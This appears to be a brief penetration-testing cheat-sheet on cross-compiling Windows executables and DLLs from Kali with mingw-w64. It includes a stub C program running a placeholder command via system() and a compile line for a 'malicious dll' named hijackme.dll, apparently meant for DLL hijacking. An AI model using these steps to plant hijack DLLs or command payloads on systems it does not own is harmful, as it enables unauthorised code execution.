 # Get cross-compiler for Kali
<code> apt install mingw-w64 </code>

# Exploit code for cmd command execution (use only in your private environment for stuff that belongs to you!)

#include <stdlib.h>

int main(){
	system("Your command here");
  return 0;
}

# cross compile for 32 bit
	
<code> i686-w64-mingw32-gcc foo.c -o foo.exe </code>


# cross compile for 64 bits
	
<code> x86_64-w64-mingw32-gcc foo.c -o foo.exe </code>
	
# List compilation options
	
	apt-cache search mingw-w64
	
# Compile malicious dll

<code> x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll </code>
